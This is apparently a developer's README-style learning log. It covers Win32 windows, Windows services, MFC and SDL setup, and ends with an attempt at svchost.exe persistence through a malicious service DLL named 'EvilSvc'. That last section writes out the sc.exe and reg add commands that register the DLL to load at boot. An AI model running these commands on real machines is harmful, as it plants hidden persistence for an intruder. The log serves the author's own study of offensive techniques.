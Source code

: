 # trying to use winapi

https://docs.microsoft.com/en-us/windows/win32/learnwin32/your-first-windows-program

failed : not running in dev cpp

### new.cpp

new.cpp creates a window, this works.

![](new.png)

## Introduction to windows service applications

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface.

https://www.c-sharpcorner.com/article/create-windows-services-in-c-sharp/

failed : This also did not go according to plan.


Lets create a smaple service 

https://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus

sc create ValueList binPath=C:\Users\HP\Downloads\SampleService\Debug\SampleService.exe

Successfully added service - 

![](services/cmd.png)

verifying the service - 

![](services/valuelist.png)

## Creating a MFC appliCATION

Starting initial application:

![](./mfc/mfc_simple.png)

failed : It didnt work was too complicated. Did not work.

## working with SDL and C++

https://lazyfoo.net/tutorials/SDL/

Able to compile sdl

![](sdl_tut.png)

step 1. download SDL libs http://libsdl.org/download-2.0.php
step 2. you need to add the SDL include folder to the Visual C++ include directories. in properties.
step 3. The header file tells the compiler what the SDL functions are, not where to find them. The library file tells the compiler where they are and we need to tell it to use the SDL library file. Go to Configuration Properties -> Linker -> Additional Dependencies -> Edit. Add SDL2.lib and SDL2main.lib.
step 4. While we did tell Visual C++ to use the SDL library files, we didn't tell it where to find it. Add the library directory like you did the include directory. inside properties library directory add x64 lib folder.
step 5. This is because your application needs SDL2.dll to run but can't find it. Windows uses environment variables to define where to look for dll files. To edit the PATH environment variable, go into Windows Settings and search for edit the system environment variables.
x64 lib.

Need to give full path of image to be loaded.
Was able to load the image.

![](./sdl/weirdal.png)

## Code for handling multiple inputs

![](sdl.gif)

# Persisting with svchost.exe with a service dll servicemain

Create a service EvilSvc.dll DLL (the DLL that will be loaded into an svchost.exe) with the code we want executed on each system reboot
Create a new service EvilSvc with binPath= svchost.exe
Add the ServiceDll value to EvilSvc service and point it to the service DLL compiled in step 1
Modify HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost to specify under which group your service should be loaded into
Start EvilSvc service
The EvilSvc is started and its service DLL EvilSvc.dll is loaded into an svchost.exe

https://www.ired.team/offensive-security/persistence/persisting-in-svchost.exe-with-a-service-dll-servicemain

![](./service_dll_for_svchost/servicedll.png)
 
Theory on svchost :  https://www.geoffchappell.com/studies/windows/win32/services/svchost/index.htm?tx=21%2C22

official guide on servicehost: https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function

1. Another attempt at creating a service dll

https://github.com/apriorit/SvcHostDemo/blob/master/src/SvcHostDemo/SvcHostDemo.cpp

status : Build succeeded on this.

2. So lets now create a service Evilsvc

`sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto`

status : done

```
C:\Windows\system32>sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
[SC] CreateService SUCCESS
```

3. modify the service dll path

`reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "D:\VS Studio projects\svchost_dll\Debug\svchostdll.dll" /f`

status : done

```
C:\Windows\system32>reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "D:\VS Studio projects\svchost_dll\Debug\svchostdll.dll" /f
The operation completed successfully.

```
4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our EvilSvcshould load. 
We want it to get loaded in the DcomLaunch group, so we need to add our service name EvilSvc in the list of services in the DcomLaunch value in HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost

status : added

![](service_dll_for_svchost/evilsvc_in_registry.png)


5. start evilsvc service as part of dcom launcher

`sc.exe start EvilSvc`

![](service_dll_for_svchost/evilsvc_adm.png)

status : Didnot registre as service with antivirus enabled

![](service_dll_for_svchost/evilsvc_not_found.png)